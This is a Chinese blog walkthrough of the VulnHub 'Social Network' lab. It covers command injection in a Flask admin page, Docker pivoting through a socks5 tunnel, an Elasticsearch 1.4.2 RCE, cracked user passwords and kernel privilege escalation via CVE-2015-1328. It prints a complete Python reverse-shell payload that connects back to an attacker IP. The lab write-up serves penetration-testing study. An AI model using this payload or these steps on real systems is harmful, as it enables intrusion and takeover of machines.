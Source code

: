 ```yaml
---
title: VulnHub靶场 Medium Socnet
description: VulnHub靶场 Medium Socnet WP
pubDate: 10 18 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


靶机下载连接：[BoredHackerBlog: Social Network \~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)

## Web 渗透

进行主机发现，由于是在用一网段下，所以使用二层 ARP 发现，发现如下主机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-1.png?imageSlim)

其中 `192.168.135.192` 是物理机器，`192.168.135.2` 是手机，对 22 和 47主机进行服务探测，找出我们的靶机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-2.png?imageSlim)

找到靶机为 `192.168.135.22`，在 5000 端口下开放了一个 Python 语言的 HTTP 服务，进行访问，来到如下界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-3.png?imageSlim)

进行测试，页面没啥东西，进行目录扫描，发现 `/admin` 路径，页面如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-4.png?imageSlim)

可进行命令执行，插入一个 Python 反弹 shell，同时 nc 启动监听

```python
import socket, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.135.192", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("sh")
```

反弹成功，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-8.png?imageSlim)

## 内网渗透

进行基本查看，ls 命令发现 Dockerfile 文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-9.png?imageSlim)

目标机器是一个 docker 容器，查看一下 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-10.png?imageSlim)

目标机器只有一个内网网卡，为 `172.17.0.2/16` ，而我们访问的是 `192.168.135.22`，更能说明这是一个 docker 容器

使用 venom 搭建 socks5 隧道，在本地通关 python 搭建简单 HTTP 服务器，然后通过 wget 将 venom 客户端下载到目标靶机，搭建隧道

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-11.png?imageSlim)

隧道搭建成功，连接本地 1234 端口即可实现隧道通信。使用 Proxifier 代理，对 `172.17.0.2/16` 进行扫描，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-14.png?imageSlim)

发现 `172.17.0.1`，并且它也开启了 5000 端口，访问后发现和 `172.17.0.2` 是一样的。对其余 IP 再进行探测

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-13.png?imageSlim)

发现 `172.17.0.3`，并且开放 9200 端口，对该端口进行详细的服务扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-15.png?imageSlim)

是一个 1.4.2 版本的 `Elasticsearch REST API`，该应用曾经有过 RCE，去找一下有没有 EXP，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-16.png?imageSlim)

查看该 EXP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png?imageSlim)

是一个 python2 版本的 exp，用 python3 格式重新写一下，然后直接利用试试，上来直接拿到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-18.png?imageSlim)

ls 命令发现有个 passwords，里面是用户密码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-19.png?imageSlim)

挨个解 MD5，得到如下结果

```
john:1337hack
test:1234test
admin:1111pass
root:1234pass
jane:1234jane
```

尝试使用 SSH 登录，结果只有 `john:1337hack` 成功登录，没有 sudo 权限。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-20.png?imageSlim)

注意到 Linux 内核版本为 `3.13.0` ，上传扫描脚本，开扫！

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-21.png?imageSlim)

没 sudo 权限，dirtycow 用不了，选择使用 `CVE-2015-1328`。靶机没 GCC

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-22.png?imageSlim)

先编译成二进制文件，再上传执行

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-23.png?imageSlim)

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-24.png?imageSlim)

失败了，看一下代码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-25.png?imageSlim)

这个地方，它又重新调用了 gcc 去生成了一个 `/tmp/ofs-lib.so` 库文件，但是靶机是没有 gcc 的，所以它无法生成这个库文件。

嗯……生成的二进制文件要生成一个库文件，那我们直接把这段代码给他删了，然后直接在目标目录下放一个已经设置好的库文件呢？

修改代码，重新编译

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-28.png?imageSlim)

然后找 `ofs-lib.so`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-27.png?imageSlim)

把他们全部放到靶机里，库文件放到 `/tmp` 下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-29.png?imageSlim)

提权成功。
